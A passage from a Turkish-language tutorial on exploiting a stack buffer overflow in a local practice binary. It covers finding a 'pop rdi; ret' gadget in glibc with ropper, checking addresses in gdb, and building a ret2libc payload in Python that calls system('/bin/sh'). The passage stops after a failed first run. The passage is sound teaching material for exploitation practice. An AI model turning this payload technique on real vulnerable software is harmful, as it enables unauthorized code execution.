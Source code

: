 Bu bilgiyi gadget bilgisi ile birleştirmemiz lazım. **Gadget** ya da şuanki exploitimiz için **ROP gadget**
dediğimiz şey programın akışını manipüle etmemize yardımcı olan küçük komut parçaları. Dönüş adresini kontrol
ediyoruz sonuçta değil mi? İlla da bir fonksiyona dönüş yapmak zorunda değiliz, sadece belirli bir komut parçasına
dönüş yapabiliriz, sonunda `ret`e eriştiğimiz sürece program akışı hala bizim kontrolümüz altında.

`rdi`ya veri yüklmenin tek yolu, stack'den veriyi `pop`latmak olacaktır. Veriyi stack'e yerleştirip
`pop rdi` komutunu çalıştıran bir adrese dönüş yaparsak `rdi`a stackden istediğimiz veriyi yükleyebiliriz.
Ha tabi, `pop rdi`dan sonra `ret` komutunun gelmesi lazım. Bu sayede kaldığımız yerden devam edip `system`
çağrısını yapabiliriz.

Tamam yani `pop rdi` ve arkasından `ret` çalıştırcak bir gadget'a ihtiyacımız var, bu gadget'ın adresini
nasıl bulacağız? Önceden dediğim gibi, glibc oldukça geniş bir library elbette içinde `pop rdi` ve arkasından
`ret` çalıştıran bir adres vardır.

Bu adresi bulmak için [`ropper`](https://github.com/sashs/Ropper) isimli bir (makinede kurulu gelen) gadget
bulma aracını kullanacağız. Bu araca alternatif olarak [`ROPgadget`](https://github.com/JonathanSalwan/ROPgadget)
ve [`ropr`](https://github.com/ben-lichtman/ropr) isimli iki araç daha mevcut, dilerseniz bu araçları da kullanabilirsiniz
(bu araçlar makinede kurulu değil). Ben kullanımı rahat olduğundan `ropper` ile devam ediyor olacağım.

`ropper` ile istediğimiz gadgeti glibc içinde bulmak için:
```bash
ropper --file /usr/lib/x86_64-linux-gnu/libc.so.6 --search "pop rdi; ret"
```
Bu komut size yine `/bin/sh` durumunda olduğu gibi glibc içindeki adresini vericektir. Bunu gdb'deki glibc adresine
ekleyerek asıl adresi bulup doğrulayabiliriz:
```
(gdb) x/1i 0x7ffff7dd9000+0x0000000000026265
   0x7ffff7dff265 <iconv+181>:  pop    rdi
(gdb) x/1i 0x7ffff7dff266
   0x7ffff7dff266 <iconv+182>:  ret
```

Herşey hazır şimdi hepsini bir araya koyalım:
```python
from struct import pack

filler = b"A"*40
poprdi = pack("<Q", 0x<gadget adresi>)
binsh  = pack("<Q", 0x</bin/sh adresi>)
system = pack("<Q", 0x<system adresi>)

f = open("/tmp/ex", "wb")
f.write(filler+poprdi+binsh+system)
f.close()
```
Şimdi exploitimizi test etme vakti:
```
python3 exploit.py
gdb ./0x2.elf
r < /tmp/ex
```
Veeee... başarısız olduk?
```
(gdb) r < /tmp/ex
The program being debugged has been started already.
Start it from the beginning? (y or n) y
```